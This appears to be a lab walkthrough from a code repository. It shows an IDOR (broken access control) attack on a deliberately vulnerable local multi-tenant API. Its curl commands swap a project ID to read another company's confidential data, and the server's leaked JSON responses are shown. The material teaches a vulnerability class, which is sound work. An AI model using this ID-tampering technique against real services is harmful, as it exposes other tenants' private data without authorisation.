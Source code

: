 ## Prerequisites
First, ensure the vulnerable multi-tenant server is running with the following command:

```Bash

uvicorn vulnerable:app --reload
```
## Exploitation Steps
The goal is for an authenticated user from one company (Bob from InnovateCorp) to access a confidential project belonging to a different company (DataSolutions).

1. Access a Legitimate Resource
First, the attacker, Bob, logs in and accesses a project he is authorized to see (Project 101). This is a normal, legitimate action.

```Bash

curl -X GET "http://127.0.0.1:8000/projects/101" \
     -H "Authorization: Bearer token_de_bob_empresa1"
```

Expected Response:
The API correctly returns the project data, which belongs to his company (company_id: 1).

```JSON

{"company_id":1,"name":"Projeto Fênix","budget":50000}
```
2. Perform the Exploit (IDOR Attack)
Bob notices the API uses a simple integer ID (101) in the URL. He hypothesizes that other projects for other companies might have sequential or guessable IDs. He decides to try accessing project 201.

He sends the request using his own authentication token, but changes the ID in the URL to the one he wants to target.

```Bash

curl -X GET "http://127.0.0.1:8000/projects/201" \
     -H "Authorization: Bearer token_de_bob_empresa1"
```

3. Analyze the Result
Because the endpoint is vulnerable, the server finds project 201 and returns its data without checking if Bob's company_id matches the project's company_id.

Successful Exploit Response:

```JSON

{"company_id":2,"name":"Reestruturação do Big Data","budget":120000}
```
This response confirms the exploit was successful. The API has leaked confidential data (project name and budget) from DataSolutions (company_id: 2) to a user from a rival company, InnovateCorp (company_id: 1). This is a critical Broken Access Control failure.
